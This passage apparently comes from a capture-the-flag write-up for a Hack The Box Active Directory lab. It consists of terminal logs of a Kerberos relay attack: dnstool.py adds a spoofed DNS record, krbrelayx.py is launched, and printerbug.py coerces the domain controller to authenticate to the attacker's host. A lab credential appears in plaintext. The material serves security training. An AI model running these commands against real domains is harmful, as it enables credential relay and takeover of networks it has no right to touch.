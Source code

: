 ```sh
[-] Adding new record
[+] LDAP operation completed successfully
 python dnstool.py -u 'rustykey.htb\rr.parker' -p '8#t5HE8L!W3A' -d "10.10.14.81" --action query -r "it-computer3" --tcp -k dc.rustykey.htb -dns-ip 10.129.174.88
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[+] Found record it-computer3
DC=it-computer3,DC=rustykey.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=rustykey,DC=htb
[+] Record entry:
 - Type: 1 (A) (Serial: 88)
 - Address: 10.10.14.81
 ```

```sh
 python dnstool.py -u 'rustykey.htb\rr.parker' -p '8#t5HE8L!W3A' -d "10.10.14.81" --action add -r "it-computer31UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA.rustykey.htb" --tcp -k dc.rustykey.htb -dns-ip 10.129.174.88
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[!] Record already exists and points to 10.10.14.81. Use --action modify to overwrite or --allow-multiple to override this
...
 sudo python krbrelayx.py -t dc.rustykey.htb
/home/tokugero/ctf/htb/season8/week7-rustkey/.venv/lib/python3.13/site-packages/impacket/examples/ntlmrelayx/attacks/__init__.py:20: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
[*] Protocol Client SMB loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Running in attack mode to single host
[*] Running in kerberos relay mode because no credentials were specified.
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up DNS Server

[*] Servers started, waiting for connections
[*] SMBD: Received connection from 10.129.174.88
[-] Unsupported MechType 'NTLMSSP - Microsoft NTLM Security Support Provider'
[*] SMBD: Received connection from 10.129.174.88
[-] Unsupported MechType 'NTLMSSP - Microsoft NTLM Security Support Provider'
[*] SMBD: Received connection from 10.129.174.88
[-] Unsupported MechType 'NTLMSSP - Microsoft NTLM Security Support Provider'
...
 python printerbug.py -k -no-pass dc.rustykey.htb -dc-ip 10.129.174.88 it-computer31UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA.rustykey.htb
/home/tokugero/ctf/htb/season8/week7-rustkey/.venv/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
[*] Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Attempting to trigger authentication via rprn RPC at dc.rustykey.htb
[*] Bind OK
[*] Got handle
DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Triggered RPC backconnect, this may or may not have worked
```